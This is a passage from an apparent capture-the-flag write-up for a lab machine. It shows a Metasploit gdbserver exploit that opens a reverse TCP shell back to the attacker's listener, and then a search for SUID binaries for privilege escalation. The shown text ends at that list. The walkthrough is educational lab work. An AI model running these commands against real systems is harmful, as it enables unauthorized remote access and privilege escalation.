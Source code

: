 ```
```
```
sf6 exploit(multi/gdb/gdb_server_exec) > set payload linux/x64/shell_reverse_tcp
payload => linux/x64/shell_reverse_tcp
msf6 exploit(multi/gdb/gdb_server_exec) > run
[*] Started reverse TCP handler on 10.23.106.242:4444 
[*] 10.10.173.15:6048 - Performing handshake with gdbserver...
[*] 10.10.173.15:6048 - Stepping program to find PC...
[*] 10.10.173.15:6048 - Writing payload at 00007ffff7fd0df5...
[*] 10.10.173.15:6048 - Executing the payload...
[*] Command shell session 1 opened (10.23.106.242:4444 -> 10.10.173.15:36302) at 2025-06-10 12:49:22 -0400

shell
[*] Trying to find binary 'python' on the target machine
[-] python not found
[*] Trying to find binary 'python3' on the target machine
[*] Found python3 at /usr/bin/python3
[*] Using `python` to pop up an interactive shell
[*] Trying to find binary 'bash' on the target machine
[*] Found bash at /usr/bin/bash
whoami
whoami
hudson
hudson@airplane:/opt$ 
```

I now had a shell as the user `hudson`.

## Privilege Escalation

To escalate privileges, I looked for SUID binaries on the system:

```console

hudson@airplane:/home/hudson$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/bin/find
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/umount
/usr/bin/fusermount
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/su
/usr/bin/vmware-user-suid-wrapper
/usr/bin/mount
/usr/sbin/pppd
/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/xorg/Xorg.wrap
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/snap/snapd/18357/usr/lib/snapd/snap-confine
/snap/core20/1828/usr/bin/chfn
/snap/core20/1828/usr/bin/chsh
/snap/core20/1828/usr/bin/gpasswd
/snap/core20/1828/usr/bin/mount
/snap/core20/1828/usr/bin/newgrp
/snap/core20/1828/usr/bin/passwd
```